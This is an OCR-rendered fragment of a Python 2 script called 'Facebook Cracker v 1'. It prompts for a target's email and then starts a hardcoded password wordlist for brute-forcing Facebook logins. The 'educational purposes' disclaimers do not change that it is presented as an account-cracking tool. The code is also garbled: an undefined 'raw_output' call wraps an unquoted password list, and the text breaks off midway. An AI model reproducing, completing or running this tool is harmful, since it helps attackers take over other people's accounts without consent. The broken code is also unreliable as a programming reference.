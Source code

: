 #!usr/bin/python

#This program is for educational purposes only.
#Don't attack people facebook accounts it's illegal ! 
#If you want to crack into someone's account, you must have the permission of the user. 
#We are not responsible.


import sys
import random
import mechanize
import cookielib


GHT = '''

        +=======================================+
        |..........Facebook Cracker v 1.........|
        +---------------------------------------+
        |#Author: AnakLapangan Attacker         |
        |#Contact: Behind you ^_^               |
        |#Modifed by : khilya140218             |
        |#This tool is made for pentesting.     |
        |#Changing the Description of this tool |
        |Won't made you the coder ^_^ !!!       |
        |#Respect Coderz ^_^                    |
        |#I take no responsibilities for the    |
        |  use of this program !                |
        +=======================================+
        |..........Facebook Cracker v 1.........|
        +---------------------------------------+
'''
print " Facebook Cracker Ready !!"
print "Go To  !!!"


email = str(raw_input("Masukkan alamat email target  : "))
passwordlist = str(raw_output(onaloveriu
root
admin
indoxploit
administrator
webadmin
sysadmin
netadmin
guest
user
web
test
123456
Indonesia
Garuda
Rahma123
Mmaz rewell
mmaz rewell
putri123
140218
indoxploit
Zte521